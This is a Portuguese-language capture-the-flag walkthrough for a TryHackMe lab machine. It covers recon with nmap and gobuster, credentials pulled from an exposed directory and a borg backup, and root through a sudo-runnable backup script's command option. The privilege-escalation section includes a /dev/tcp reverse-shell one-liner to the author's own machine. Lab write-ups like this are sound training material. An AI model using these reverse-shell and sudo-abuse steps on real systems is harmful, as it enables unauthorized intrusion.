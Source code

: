 #ctf
https://tryhackme.com/room/cyborgt8

## Recon

Usando **NMAP**:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu
80/tcp open  http    Apache httpd 2.4.18
```

Fazendo uma bruteforce de diretórios com o **gobuster** os seguintes caminhos foram encontrados

- /admin -> website
- /etc -> existe credenciais: music_archive:squidward

Em `/admin` é possível baixar um backup feita com a ferramenta `borg`, rodando os comando abaixo para ver o backup consegui extrair as credenciais de ssh `alex:S3cretP@s3`em `/home/alex/Documents/note.txt`. (A senha é squidward).

```sh
cd home/field/dev/final_archive
borg list .
borg extract --list .::music_archive
```

## Privesc

Existe um arquivo `/etc/mp3backups/backup.sh` que permite rodar como root sem a necessidade de inserir a senha. Lendo este arquivo, existe um opção **-c** que executa comandos, com isso basta executar o código abaixo:

```sh
cd /etc/mp3backups
sudo -u root ./backup.sh -c su root
sh -i >& /dev/tcp/IP/4444 0>&1 # mesmo com root, os comandos não geravam output, então, me conectando com minha máquina passando o shell, consegui ver os outputs
```

